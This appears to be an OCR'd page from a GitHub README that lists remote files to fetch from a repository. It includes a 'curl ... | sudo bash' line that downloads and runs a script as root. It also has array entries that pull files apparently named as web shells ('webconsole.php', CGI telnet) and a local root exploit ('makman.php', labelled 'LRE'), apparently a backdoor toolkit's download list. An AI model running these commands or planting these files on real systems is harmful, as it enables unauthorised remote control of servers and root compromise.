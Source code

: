# curl | bash
## $name == "sysadmin.sh"
# getfile($name)
```bash
curl https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/sysadmin.sh | sudo bash
```
## $name == "webconsole"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/webcon", "webconsole.php");
```
&nbsp;
&nbsp;
## $name == "cgitelnet1"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi1", "idx_cgi/cgitelnet1.idx");
```
&nbsp;
&nbsp;
## $name == "cgitelnet2"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi2", "idx_cgi/cgitelnet2.idx");
```
&nbsp;
&nbsp;
## $name == "LRE"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/makman", "makman.php");
```
